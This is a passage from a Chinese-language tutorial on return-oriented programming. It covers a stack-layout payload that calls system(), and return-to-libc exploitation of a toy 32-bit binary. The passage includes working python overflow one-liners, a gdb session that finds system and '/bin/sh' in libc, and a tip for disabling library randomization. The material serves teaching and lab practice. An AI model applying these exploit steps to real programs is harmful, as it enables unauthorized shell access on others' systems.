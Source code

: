 我们将构造有效负载，使堆栈看起来像在返回后立即调用system(not_used)。因此我们使我们的有效载荷:

```
| 0x8048580 <not_used>             |
| 0x43434343 <fake return address> |
| 0x8048360 <address of system>    |
| 0x42424242 <fake old %ebp>       |
| 0x41414141 ...                   |
|   ... (0x6c bytes of 'A's)       |
|   ... 0x41414141                 |

```

在shell中尝试如下：

```c
$ ./a.out "$(python -c 'print "A"*0x6c + "BBBB" + "\x60\x83\x04\x08" + "CCCC" + "\x80\x85\x04\x08"')"
$
```

# 3、Return to `libc`

到目前为止，我们只看到了包含我们开发所需要的部分的人为的二进制文件。幸运的是，ROP仍然相当简单，没有这个障碍。诀窍是要认识到，使用共享库中的函数的程序(如来自libc的printf)将在运行时将整个库链接到它们的地址空间。这意味着即使它们从不调用system, system(以及libc中的所有其他函数)的代码也可以在运行时访问。我们可以在gdb中很容易地看到这一点:

```c
$ ulimit -s unlimited
$ gdb -q a.out
Reading symbols from /home/ppp/a.out...(no debugging symbols found)...done.
(gdb) break main
Breakpoint 1 at 0x8048404
(gdb) run
Starting program: /home/ppp/a.out 

Breakpoint 1, 0x08048404 in main ()
(gdb) print system
$1 = {<text variable, no debug info>} 0x555d2430 <system>
(gdb) find 0x555d2430, +999999999999, "/bin/sh"
0x556f3f18
warning: Unable to access target memory at 0x5573a420, halting search.
1 pattern found.
```

首先，使用ulimit -s unlimited将禁用32位程序上的库随机化。接下来，我们必须在加载库之后运行程序并在main函数中断，以便在共享库中打印值(但是在我们这样做之后，甚至程序未使用的函数也可用于我们)。最后，libc库实际上包含字符串/bin/sh，我们可以在gdb中找到这个字符串，用于攻击!

将这两个地址都插入到我们之前的漏洞中是相当简单的:

```c
$ ./a.out "$(python -c 'print "A"*0x6c + "BBBB" + "\x30\x24\x5d\x55" + "CCCC" + "\x18\x3f\x6f\x55"')"
$
```

# 4、Chaining gadgets

